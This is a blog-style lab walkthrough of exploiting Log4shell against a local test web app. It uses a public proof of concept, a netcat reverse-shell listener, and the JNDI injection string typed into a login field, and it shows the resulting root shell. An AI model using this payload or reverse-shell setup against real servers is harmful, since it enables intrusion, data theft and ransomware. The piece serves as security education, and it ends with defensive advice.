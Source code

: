 ```yaml
---
title: "Exploiting Log4shell"
categories:
  - Hacking
header:
  image: assets/images/hack.jpg

---
```


This article is intended to show the Log4shell exploit in action. If you're unfamiliar with what Log4shell is, [please read this article](https://www.freshprinceofhacking.com/general/Log4Shell-Vulnerability/). Essentially, we're going to have a test web application set up, along with the actual exploit that has been made ready to show as proof of concept. Let's get hacking!

### Scenario

We've just discovered a web application that is vulnerable to the Log4shell exploit. We want to be able to get a reverse shell on the webserver in order to control the server remotely. Once we do that, we can then continue to perform whatever hacking is necessary to achieve our end goal (data exfiltration, deploy crypto mining malware or ransomware, etc.). 

### Concept

Log4shell is a vulnerability recently discovered in the log4j java library. Log4j is a logging framework that records various events in a given application that can be read by a system administrator. These events can include user input, error messages and system routines. Log4j also utilizes a feature called lookups, which can be used to retrieve data from remote locations. If done correctly, a hacker can craft a special string that log4j will read, interpolate and execute code from a remote server that the attacker owns. The Java Naming and Directory Interface (JNDI) is the specific lookup that we will target to exploit this vulnerability.

### Tools Used

* Operating System: Linux (Pop-OS)
* Netcat: utility to read and write data across networks
* Python3: programming language used to compile exploit
* Docker: containerizing software that holds the vulnerable app
* Proof of Concept Github page: [Log4shell POC](https://github.com/kozmer/log4j-shell-poc)

If you're following along while reading, I'm going to assume you have everything downloaded and installed correctly after this point. 

### The Attack

Here is the web application we will be attacking:

![WebApp1]({{ site.url }}{{ site.baseurl }}/assets/images/webapp1.png)

It is a simple page with login credential fields. Remember, we want to be able to pass a string to log4j to query. User input is a great way to do that. Therefore the login credential fields will be our attack vector. 

There are only 2 things that we need to run: One is going to be the github poc script, which will create an LDAP server for us and set up the "malicious code" that log4j will execute on it. The other running piece is going to be a netcat listener that will receive the connection and start a reverse shell once the malicious code has been executed. Let's run the poc script from the github page:

![Server]({{ site.url }}{{ site.baseurl }}/assets/images/server.png)

We can see that an LDAP server has been created for us, and they even gave us a string that we can use to input into the login fields. Let's also start up our netcat listener in a different terminal:

![Netcat]({{ site.url }}{{ site.baseurl }}/assets/images/netcat.png)

The netcat listener is listening over port 9001, which is the listening port we gave to the exploit in the command when we set it up in the preivous section. This means that when we paste the string into the login field, the listener we set up should recognize that port 9001 is going to be used to complete the connection and spawn a reverse shell. Now everything should be ready to perform the exploit. The only thing we need to do is take the string ${jndi:ldap://localhost:1389/a} and paste it into the login field. Here is what that looks like:

![WebApp2]({{ site.url }}{{ site.baseurl }}/assets/images/webapp2.png)

All we've done is add the string to the username field and random text to the password field. Once we hit login, the exploit should work. Now let's turn our attention back to the poc terminal where we initiated the exploit:

![Server2]({{ site.url }}{{ site.baseurl }}/assets/images/server2.png)

Now we see that there was an LDAP reference which took the string we inputted into the field that log4j interpolated and then ultimately ran the code that's in "Exploit.class" hosted on our LDAP server. This is good! It means it worked as far as we know. However, let's check our netcast listener to see if we see any results:

![Netcat2]({{ site.url }}{{ site.baseurl }}/assets/images/netcat2.png)

Success!! We see a "Connection received on 127.0.0.1 54386". Ultimately, this means our reverse shell worked, and we now can execute commands on the webserver remotely. I've already chosen 3 simple but powerful commands that give us some information about the server that hosts the web application. 

The first command is "ls": This gives us information about files and folders in the current directory we are in. Ls also has other options which can show read/write/execute permissions on those files/folders.

The second command is "pwd": This command tells us exactly where we are on the machine. It gives information about the current directory and path of that directory. In this example I am in the /usr/local/tomcat directory.

The last command is "whoami": This command tells you the username of the current user. It may not seem like much, but as you can see it spit out "root" when we typed it in. This means I am the root user on this server, which basically allows me full permission to read/write/execute files and invoke privileged commands that normal users wouldn't have. You can think of it like an administrator credential, but for the terminal. 

The hack is complete!

### Conclusion

We can see that this exploit did not require a ridiculous amount of technical expertise to complete. Although the LDAP server and malicious code were created for us, setting these up manually is not hard to do. You can even push the exploit over other protocols such as DNS. So there are a lot of possibilities and creative ways that you can go about exploiting this vulnerability. You can bet that attackers will be trying to execute this in a stealthy manner that wouldn't be normally detected by security tools. 

As stated in my article on Log4shell, the problem is that there are millions upon millions of vulnerable devices, which more than likely aren't all patched. Hackers are constantly combing the internet for webservers and other devices that may be vulnerable to the exploit. It only takes one device in a network to be vulnerable that could be the downfall to a major part of the security posture of the organization. Only time will tell how bad the fall out from this vulnerability will be. There is already [evidence of this exploit being used in the wild](https://www.advintel.io/post/ransomware-advisory-log4shell-exploitation-for-initial-access-lateral-movement) to leverage ransomware, cryptomining and botnet activity across enterprise networks. In the meantime, the best thing we can do individually is to continue to adhere to best security practices; (including but not limited to) updating software when made available, use 2FA with strong passwords and be aware of phishing or suspicious emails.

Thank you for reading! 
